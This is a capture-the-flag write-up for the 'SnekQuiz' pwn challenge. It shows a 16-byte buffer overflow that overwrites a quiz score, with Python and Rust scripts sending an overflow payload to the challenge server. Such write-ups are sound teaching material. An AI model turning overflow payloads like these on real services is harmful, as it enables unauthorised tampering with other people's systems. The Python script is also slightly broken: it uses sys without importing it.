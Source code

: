 
### SnekQuiz - [pwn] - 200pts
As with each pwning challenge, the first step is to understand how the program works, what input it takes, what output it produces, and see if there are any values that will produce unexpected output.

![](images/test_run_1.png)


Ok, so lets see what happens when we provide the correct answers to the questions.

![](images/test_run_2.png)


Great! We get some points. But we run into a bit of a problem, we need to get 5 points and we are only asked 3 questions :( oh no!!

Ok, lets try running the program one time, but with some strange values and see what we get.

![](images/run_3.png)


Ha! Thats strange, where `10` coming from?  Well it seems we have a buffer of 16 characters to work with, anything past that causes on overflow which modified the score.  So, can we write some value which will change the score to 5 and give us the flag?  Lets find out!


I wrote a quick Python script which will send our exploit string to the server.

```python
import socket
import time


# setup the socket stuff
try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except socket.error as e:
    print "[!] Failed to initiate socket\n"
    sys.exit()
else:
    print "[+] Socket successfully created\n"

    # connect to the socket
    HOST = "challenge.uiuc.tf"
    PORT = 11343
    sock.connect((HOST, PORT))



# run the exploit
while True:
    output = sock.recv(1024)
    if output == None or output == "":
        break
    else:
        sock.send("aaaaaaaaaaaaaaaa\x05")
        print output

```

And voila!
![](images/the_flag.png)



**Side Note**
I had a bit of time on my hands, so I also wrote the same exploit in `Rust` because why not.

```rust
extern crate bufstream;
use std::net::TcpStream;
use bufstream::BufStream;

// Traits
use std::io::BufRead;
use std::io::Write;


fn main() {
    if let Ok(stream) = TcpStream::connect("challenge.uiuc.tf:11343") {
        let mut buffer = BufStream::new(stream);
        loop {
            let mut output = String::new();
            if output == " " {
                break;
            } else {
                buffer.read_line(&mut output).unwrap();
                buffer.write_all(b"aaaaaaaaaaaaaaaa\x05").unwrap();
                buffer.flush().unwrap();
                print!("{}", output);
            }
        }
    } else {
        println!("[!] Unable to connect!");
    }
}
```

![](images/rust_exploit.png)

